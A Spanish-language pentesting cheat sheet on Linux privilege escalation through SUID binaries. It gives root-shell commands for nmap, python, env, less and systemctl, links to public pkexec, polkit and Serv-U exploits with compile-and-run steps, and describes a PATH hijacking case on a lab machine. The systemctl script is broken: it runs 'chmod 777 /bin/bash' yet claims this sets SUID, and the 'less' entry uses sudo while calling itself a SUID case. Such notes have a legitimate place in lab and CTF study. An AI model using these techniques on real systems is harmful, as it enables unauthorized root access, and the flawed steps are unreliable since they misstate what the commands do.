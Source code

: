 ```yaml
---
title: "Permisos Suid Guid Extraños"
layout: "single"
category: "Linux Pentesting"
slug: "linux-pentesting/permisos-suid-guid-extraños"
date: "2025-09-30"
---
```


### Permisos SUID y GUID 
#### Permiso de SUID en nmap
basta con lanzar nmap de forma interactiva
```bash
nmap --interactive
```

y luego lanzar
```bash
!bash -p
```
#### Permiso de SUID pkexec
se puede utilizar el siguiente exploit, cuando pkexec tiene permisos SUID
[pkexec](https://github.com/Almorabea/pkexec-exploit/blob/main/CVE-2021-4034.py)

al compartirlo con la máquina y darle permisos de ejecución, nos preguntará si queremos usar el payload por defecto, escribimos **n** y aceptamos.

#### Permiso de SUID Python
```bash
./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

#### Permiso de SUID polkit
Cuando detectamos algun binario con nombre similar a **polkit** , se puede explotar con un exploit.

https://github.com/Almorabea/Polkit-exploit

#### Permiso de SUID env
```bash
/usr/bin/env /bin/sh -p
```

#### Permiso SUID Less
Leemos un fichero:
```bash
sudo /bin/less fichero.txt

Luego nos aparece resaltado el (END)
ahí escribimos una exclamación !
y podemos ejecutar comandos del sistema desde less, pero como tenemos permiso SUID podemos ejecutar:
/bin/bash

y ya somos root
```

#### Permiso SUID Systemctl
al ejecutar este script, estamos dando permiso SUID a "/bin/bash".
```bash
#!/bin/bash 
TF=$(mktemp).service 
echo '[Service] 
Type=oneshot 
ExecStart=/bin/sh -c "chmod 777 /bin/bash" 
[Install] 
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```

Luego ejecutamos una bash y seremos root.
```bash
bash -p
```

#### Serv-U
Servidor FTP con vulnerabilidad de escalada de privilegios
link al exploit: https://www.exploit-db.com/exploits/47009

Crear un fichero llamado *privesc.c* y pegar el contenido del exploit
lanzar 
```bash
gcc privesc.c -o pe && ./pe
```

#### Permiso SUID en /opt
En este directorio se suelen almacenar scripts y programas que no pertenecen al sistema. Cuando encontramos un binario SUID, o con sudo -L dentro de este directorio hay que investigarlo bien. Para el ejemplo, en la máquina **symfonos 1** , se encontró **/opt/statuscheck**, pertenecía a root, y tenía SUID, esto quiere decir que podíamos ejecutarlo y además como root. 

al hacer un **strings** se vió que contenía el comado **curl** y estaba incluido con ruta relativa y no absoluta, lo que ayudó a acontecer un [Path Hijacking](https://glmbxecurity.github.io/docs/5-hacking-linux/path-hijacking/)

